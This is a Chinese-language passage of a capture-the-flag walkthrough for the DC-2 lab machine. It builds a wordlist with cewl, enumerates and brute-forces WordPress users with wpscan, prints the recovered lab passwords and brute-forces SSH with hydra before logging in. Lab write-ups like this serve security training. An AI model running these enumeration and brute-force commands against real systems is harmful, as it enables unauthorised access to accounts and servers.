 根据flag1的提示，需要登录来找下一个flag，使用cewl生成爆破字典

```bash
cewl http://dc-2 -w dc2-pass.txt
```

密码有了，下来需要用户，使用wpscan枚举用户

```
wpscan --url http://dc-2 --enumerate u
```

爆破得到admin，jerry，tom三个用户，爆破之

```
wpscan -U admin -P dc2-pass.txt --url http://dc-2 --force
wpscan -U tom -P dc2-pass.txt --url http://dc-2 --force
wpscan -U jerry -P dc2-pass.txt --url http://dc-2 --force
```

admin爆破失败，得到tom和jerry的密码

```
Username: tom, Password: parturient
Username: jerry, Password: adipiscing
```

访问wordpress默认登录链接： /*wp*-admin 或 /*wp*-login.php

使用jerry登录后，在pages中找到flag2

![image-20210914173732032](/assets/img/image-20210914173732032.png)

```
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```

### flag3

根据flag2的提示，如果不能利用wordPress，还有其他的方法。

还有7744端口开放的ssh服务

使用hydra对ssh进行爆破

```bash
hydra -l tom -P dc2-pass.txt -t 1 -vV -e ns 192.168.190.138 -s 7744  ssh 
```

爆破得到密码：

```
[7744][ssh] host: 192.168.190.138   login: tom   password: parturient
```

登录

```bash
ssh tom@192.168.190.138 -p 7744
```
